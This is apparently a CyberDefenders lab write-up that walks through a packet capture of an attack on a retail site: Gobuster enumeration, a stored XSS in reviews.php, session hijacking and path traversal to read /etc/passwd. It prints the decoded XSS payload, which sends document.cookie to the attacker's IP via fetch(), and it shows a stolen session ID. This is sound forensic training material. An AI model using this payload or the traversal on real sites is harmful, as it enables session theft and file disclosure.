






Lab: CyberDefenders - RetailBreach

## Scenario

ShopSphere, an online retail platform, reported unusual administrative login activity during late-night hours, coinciding with customer complaints about account anomalies. The task: investigate the PCAP to find how the attackers got in and what they did once inside.

## Identifying the attacker's IP

`Statistics → Endpoints → IPv4` to see who's talking on the wire:



Three IPs stand out. `73.124.17.52` is quickly identified as the web server itself (Apache/2.4.52 on Ubuntu, confirmed via its `Server` response header), which leaves two candidates for the attacker: `111.224.180.128` and `135.143.142.5`.

Inspecting the early packets for `135.143.142.5` rules it out:



Every connection attempt from `135.143.142.5` gets an immediate `RST, ACK` (TCP reset — an abrupt, connection-refused-style termination) on repeated ephemeral ports. A host that can't even establish a session isn't the one running a multi-request directory enumeration — so by elimination, `111.224.180.128` is the attacker.

## Cyber Kill Chain

**Reconnaissance / enumeration.** The attacker's requests carry a distinctive signature directly in the `User-Agent` header — no guessing needed:



`gobuster/3.6` confirms directory brute-forcing with **Gobuster**, visible as a long run of GET requests against random/guessed paths, mostly returning 404.

**Delivery.** Filtering for the POST request (`Edit → Find Packet → String`, searching `POST`, combined with `ip.addr == 111.224.180.128`) surfaces the actual attack payload:



URL-decoding the `review` parameter:

```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

This is a **stored XSS** payload — submitted once via `reviews.php`, it gets saved and then re-rendered to *every* future visitor of that page, including (eventually) an admin. This POST request is the actual **Delivery** stage of the kill chain — it's the moment the weaponized payload reaches the vulnerable application. ("Weaponization," crafting the payload itself, happens offline on the attacker's machine and is never directly visible in a packet capture — what's visible here is the delivery of an already-weaponized payload.)

**Prevention note:** marking cookies `HttpOnly` blocks exactly this — `document.cookie` cannot read a cookie flagged `HttpOnly`, which would have neutralized this specific exfiltration method entirely.

## Building the timeline

Once an admin views the infected review page, the injected script runs in *their* browser and fetches `document.cookie` to the attacker's own server — session hijacking via stored XSS. The first request using the resulting stolen cookie is the timeline anchor:



**Timestamp: 2024-03-29 12:09:30 (UTC)** — taken from the HTTP response's `Date` header on this request, not a TCP handshake; this is the application-layer evidence actually available in this capture.

## Exploitation

Stolen session cookie: `PHPSESSID=lqkctf24s9h9lg67teu8uevn3q`. The attacker doesn't need the admin's password at all — presenting this cookie value directly is enough to be treated as an authenticated admin session (session hijacking / session riding).

**Exploited script:** `log_viewer.php` — an admin-only endpoint reachable only because the attacker is now carrying a valid admin session.

**Accessing a sensitive system file:** this is where the attack shifts to a *second*, distinct vulnerability class — not more XSS, but **Path Traversal / Local File Inclusion (LFI)**:



The `file` parameter isn't sanitized against directory-traversal sequences (`../`), so it lets the attacker read arbitrary files on the server — `/etc/passwd` is the classic proof-of-concept target for Linux LFI, since it's always world-readable and instantly confirms the vulnerability is real.

## Attack chain summary

1. **Reconnaissance:** Gobuster directory brute-force against `shopsphere.com`
2. **Delivery:** Stored XSS payload submitted via `POST /reviews.php`
3. **Exploitation (session hijack):** Admin views the infected page → payload exfiltrates `PHPSESSID` to the attacker
4. **Exploitation (LFI):** Attacker replays the stolen session against `admin/log_viewer.php`, then abuses its unsanitized `file` parameter for path traversal to read `/etc/passwd`

## Takeaway

Two separate, individually-ordinary-looking vulnerabilities chained into full admin compromise: a stored XSS that most scanners would flag as "medium" in isolation became a full session takeover simply because the stolen cookie led straight to a second, unrelated bug (unsanitized file path). Neither one alone was catastrophic — the chain is what mattered.
